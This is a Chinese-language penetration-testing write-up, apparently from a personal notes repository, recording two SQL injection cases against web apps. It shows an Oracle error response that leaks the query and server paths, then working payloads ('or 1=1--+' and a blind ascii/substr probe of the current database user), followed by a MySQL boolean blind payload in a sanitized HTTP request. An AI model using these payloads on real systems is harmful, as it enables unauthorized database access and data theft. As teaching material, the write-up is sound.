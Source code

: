# 注入案例

## 记一次手工注入Oracle

收获：想想or语句  
环境为阿里云测试服务器，新上线系统。  
首先在post数据中的name字段添加测试字符，报错如下：  

```txt
pagenum=1&pagesize=20&name=1'&phone=&type=-1&isyunying=1

HTTP/1.1 200
Content-Type: application/json;charset=UTF-8
Date: Wed, 06 Mar 2019 03:06:37 GMT
Connection: close
Content-Length: 899

{"data":null,"success":false,"id":0,"count":0,"pages":0,"errcode":null,"errmsg":"\r\n### Error querying database.  Cause: java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n\r\n### The error may exist in file [D:\\apache-tomcat-8.5.37\\webapps\\admin\\WEB-INF\\classes\\mapper\\UserMapper.xml]\r\n### The error may involve com.kkeye.wdwx.admin.mapper.UserMapper.getList-Inline\r\n### The error occurred while setting parameters\r\n### SQL: select count(0) from (select tu.*,tui.amount,tui.cnt from wdwx_t_user tu left join wdwx_t_userinfo tui on tui.userid=tu.id          WHERE  tu.isyunying=?                          and tu.nickname like '%1'%'          order by tu.id desc) tmp_count\r\n### Cause: java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n\n; bad SQL grammar []; nested exception is java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n","ope_pm":false,"pms":null}
```

注意其中sql报错：
`select count(0) from (select tu.*,tui.amount,tui.cnt from wdwx_t_user tu left join wdwx_t_userinfo tui on tui.userid=tu.id    WHERE  tu.isyunying=?  and tu.nickname like '%1'%'    order by tu.id desc)`

like 后面的位置存在注入。会使用   `'% %'`将输入值包围起来。

使用`pagenum=1&pagesize=20&name=1%'or'%'='&phone=&type=-1&isyunying=1`发现异常。

后续使用 `pagenum=1&pagesize=20&name=1'or 1=1--+&phone=&type=-1&isyunying=1`成功获得返回值。

最后使用如下语句确认存在注入，并得到用户名首字母。
`pagenum=1&pagesize=20&name=1' or ascii(substr(SYS_CONTEXT('USERENV','CURRENT_USER'),1,1))=87 --+&phone=&type=-1&isyunying=1`

## 案例2-Mysql

以下数据包已做处理

POST /user/get?jk=1 HTTP/1.1  
Host: xxxx.xxxx.com  
User-Agent: Mozilla/5.0 (Linux; Android 7.0; PLUS Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.98 Mobile Safari/537.36  
Accept: text/javascriptx-ecmascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3  
Referer: http://l.xxxx.com/
Content-Type: application/x-www-form-urlencoded  
X-Requested-With: XMLHttpRequest  
Content-Length: 144  
Cookie: JSESSIONID=B59593
DNT: 1  
Connection: close  

tro=&`seer=x' or if(length(database())=1,1,2)=12 or 'x'='y`
